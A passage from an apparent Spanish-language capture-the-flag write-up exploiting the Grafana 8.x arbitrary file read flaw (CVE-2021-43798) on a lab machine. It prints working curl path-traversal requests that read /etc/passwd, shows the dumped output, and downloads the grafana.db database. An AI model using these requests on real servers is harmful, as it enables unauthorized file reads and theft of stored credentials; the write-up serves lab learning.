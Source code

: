 - Si inspeccionamos el script vemos como funciona la vulnerabilidad.

<p align="center">
<img src="https://i.imgur.com/CTYKQBF.png">
</p>

- Si buscamos vulnerabilidades vemos que como tal si existe la vulnerabilidad y podemos explotarla <https://pentest-tools.com/vulnerabilities-exploits/grafana-v8x-arbitrary-file-read_2187> .

- Aquí nos dicen como funciona <https://github.com/taythebot/CVE-2021-43798>. 

- Si enviamos una petición con el método **GET** vemos que obtenemos el **/etc/passwd** .

```bash
➜  nmap curl --path-as-is http://10.10.86.89:3000/public/plugins/alertlist/../../../../../../../../etc/passwd
root:x:0:0:root:/root:/bin/ash
bin:x:1:1:bin:/bin:/sbin/nologin
daemon:x:2:2:daemon:/sbin:/sbin/nologin
adm:x:3:4:adm:/var/adm:/sbin/nologin
lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin
sync:x:5:0:sync:/sbin:/bin/sync
shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown
halt:x:7:0:halt:/sbin:/sbin/halt
mail:x:8:12:mail:/var/mail:/sbin/nologin
news:x:9:13:news:/usr/lib/news:/sbin/nologin
uucp:x:10:14:uucp:/var/spool/uucppublic:/sbin/nologin
operator:x:11:0:operator:/root:/sbin/nologin
man:x:13:15:man:/usr/man:/sbin/nologin
postmaster:x:14:12:postmaster:/var/mail:/sbin/nologin
cron:x:16:16:cron:/var/spool/cron:/sbin/nologin
ftp:x:21:21::/var/lib/ftp:/sbin/nologin
sshd:x:22:22:sshd:/dev/null:/sbin/nologin
at:x:25:25:at:/var/spool/cron/atjobs:/sbin/nologin
squid:x:31:31:Squid:/var/cache/squid:/sbin/nologin
xfs:x:33:33:X Font Server:/etc/X11/fs:/sbin/nologin
games:x:35:35:games:/usr/games:/sbin/nologin
cyrus:x:85:12::/usr/cyrus:/sbin/nologin
vpopmail:x:89:89::/var/vpopmail:/sbin/nologin
ntp:x:123:123:NTP:/var/empty:/sbin/nologin
smmsp:x:209:209:smmsp:/var/spool/mqueue:/sbin/nologin
guest:x:405:100:guest:/dev/null:/sbin/nologin
nobody:x:65534:65534:nobody:/:/sbin/nologin
grafana:x:472:0:Linux User,,,:/home/grafana:/sbin/nologin
➜  nmap
```

- En el repositorio de **GitHub** nos hablan de que podemos obtener el archivo **grafana.db** vamos a descargarlo empleando **curl**.

```bash
➜  content curl -s -o grafana.db --path-as-is http://10.10.86.89:3000/public/plugins/welcome/../../../../../../../../var/lib/grafana/grafana.db
```
